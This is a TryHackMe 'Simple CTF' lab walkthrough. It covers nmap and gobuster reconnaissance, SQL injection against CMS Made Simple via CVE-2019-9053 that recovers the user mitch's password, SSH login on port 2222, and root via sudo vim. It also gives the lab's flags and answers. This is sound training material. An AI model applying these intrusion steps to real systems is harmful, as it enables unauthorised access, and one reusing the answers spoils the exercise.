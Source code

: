 # Try Hack Me - Simple CTF

setup variable IP for easy use
```bash
export IP=10.10.125.14
```

# TASK 1

Q. How many services are running under port 1000?
A. 2

```bash
nmap -sC -sV -oN nmap/initial
```
```
Nmap 7.95 scan initiated Thu Jun 19 19:04:09 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN nmap/initial 10.10.158.149
Nmap scan report for 10.10.158.149
Host is up (0.14s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.57.243
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Q. What is running on the higher port?
A. ssh

Q. What's the CVE you're using against the application? 
A. CVE-2019-9053

now let's hunt for hidden directories
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.158.149
```

/simple/
CMS Simple Made Simple site running 2.2.8

quick google gets us the CVE


Q. To what kind of vulnerability is the application vulnerable?
A. SQL Injection. i.e SQLi


Q. What's the password?
A. secret

First lets grab the exploit code. Nist provides two sites. I prefer exploit-db - https://www.exploit-db.com/exploits/46635

```
Ran this with Python3 and I kept getting an argument error. After looking at the code I see that it was using some really old libraries and syntax. Time for a quick rewrite! I have posted the new version on my github. It now works with Pyhton3 (out of the box) on Kali as of 6/18/2025
```

Running the updated code provides
```
Salt :1dac0d92e9fa6bb2
Username: mitch
email: admin@admin.com
password hash: 0c01f4468bd75d7a84c7eb73846e8d96
password: secret
```
Q. Where can you login with the details obtained?
A. http://10.10.222.217/simple/admin/login.php

```bash
gobuster dir -u http://10.10.222.217/simple/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,php3,html
```
SPent hours trying to upload reverse shells. Only to remember we have ssh on port 2222. Luets try the user name and password

```bash
ssh mitch@10.10.222.217 -p 2222
```
bingo!


Q. What's the user flag?
A. G00d j0b, keep up!

It's in mitchs home directory!

Q. Is there any other user in the home directory? What's its name?
A. sunbath

```bash
cd ..
ls -la
```


Q. What can you leverage to spawn a privileged shell?
A. vim

```bash
sudo -l
```

Q. What's the root flag?
A. sudo vim /root/root.txt

